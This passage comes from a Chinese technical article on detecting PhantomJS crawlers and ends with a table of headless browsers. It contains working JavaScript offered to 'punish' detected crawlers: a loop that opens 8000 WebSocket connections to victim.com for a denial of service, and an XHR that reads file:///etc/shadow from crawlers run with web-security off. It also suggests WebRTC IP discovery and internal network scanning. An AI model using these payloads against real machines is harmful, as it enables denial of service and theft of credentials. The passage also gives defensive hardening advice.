 - 如果检测出对方使用了 PhantomJS，除了封他 IP，还有什么办法惩罚他呢？ 由于 PhantomJS 2.x 已经支持 `WebSocket`，我们可以给他来个 WebSocket DDos 尝尝 

```javascript
(function () {
    for (var i = 0; i < 8000; i++) {
      new WebSocket('ws://victim.com/chat');
    }
  })();
// 另外，为了跨域请求的方便，很多 PhantomJS 爬虫会关闭 web-security 这个选项。
// 但关闭这个选项后，连本地的 file 域都可以访问了：
 var xhr = new XMLHttpRequest();
  xhr.open('GET', 'file:///etc/shadow', false);
  // xhr.open('GET', 'file:///C:/Windows/System32/drivers/etc/hosts', false);
  xhr.onload = function () {
    console.log(xhr.responseText);
  };
  xhr.onerror = function (e) {
    console.log('Error: ' + JSON.stringify(e));
  };
  xhr.send();
```

- 如果权限够大，我们甚至可以读取运行 PhantomJS 的机器的密码。
- 根据 PhantomJS 开发组的计划，WebRTC 将会被支持，到时候我们还能[探测他的真实 IP](https://github.com/diafygi/webrtc-ips)和扫描他的内网。

### 总结

文中我们介绍了一些在 Client Side 检查 PhantomJS 的方法，对于一般的 PhantomJS 爬虫具有不错的识别效果。 当然，我们不能完全依赖于这些检测手段。对于有经验的爬虫作者，他们还是能通过 Hook JavaScript 代码绕过 Client Side 的检查。比如，重写 `indexOf` 函数，使 `err.stack.indexOf('phantomjs')` 恒为 -1，从而绕过我们对堆栈跟踪的检查。 

在安全方面，当我们在生产环境使用无头浏览器时，应注意环境隔离，使用低权限运行，设置 `--web-security=true`。 

### 市面上常见的无头浏览器

| 软件名                  | 介绍                                                         |                           支持语言                           |
| :---------------------- | :----------------------------------------------------------- | :----------------------------------------------------------: |
| Awesomium               | 基于Chromium无图形界面浏览器引擎。                           |                          C++, .NET                           |
| benv                    | Benv是node.js开发的无界面浏览器测试环境，用于测试客户端代码。 |                          JavaScript                          |
| browser-launcher        | Browser-Launcher可以检测系统上的所有浏览器版本，并在一个独立的配置文件中启动它们，用于自动测试。 |                          JavaScript                          |
| browser.rb              | 无界面 Ruby 浏览器。                                         |                             Ruby                             |
| Browserjet              | 无界面webkit浏览器，采用node.js接口。                        |                          JavaScript                          |
| BrowserKit              | 可模拟浏览器的行为。                                         |                             PHP                              |
| CasperJS                | CasperJS 是一个开源的导航脚本和测试工具，使用 JavaScript 基于 PhantomJS 编写，用于测试 Web 应用功能，Phantom JS是一个服务器端的 JavaScript API 的 WebKit。其支持各种Web标准： DOM 处理, CSS 选择器, JSON, Canvas, 和 SVG。 |                          JavaScript                          |
| DalekJS                 | DalekJS 是一个基于 JavaScript（或 Node.js） 的免费和开源的自动化测试接口。它能够同时运行测试一组流行的浏览器（Chrome，IE，Firefox 和 WebKit）。 |                          JavaScript                          |
| Erik                    | Erik是一款基于WebKit的无界面浏览器，可用于功能函数的测试，使用JavaScript对网页进行操作访问。 |                            Swift                             |
| Geb                     | Geb 是浏览器自动化（browser automation）测试解決方案。       |                            Groovy                            |
| ghost.py                | ghost.py 是一个 Python 的 Webkit 的 Web 客户端。             |                            Python                            |
| Ghostbuster             | Ghostbuster 是一款自动化浏览器测试工具，基于phantomjs，意味着你得到一个仿真浏览器，一个真正的DOM，仿真测试环境。 |                          JavaScript                          |
| grope                   | Grope 是无ＧUI浏览器环境，使用WebKit Framework + RubyCocoa。 |                             Ruby                             |
| Guillotine              | Guillotine 是一款采用C#开发的.NET 无界面浏览器。             |                             .NET                             |
| Headless                | Headless是一款无界面浏览器，支持快速网络接受测试，采用.Net环境。 |                             .NET                             |
| headless_browser        | Headless-Browser 是一款采用C++开发的基于WebKit 无界面浏览器。 |                             C++                              |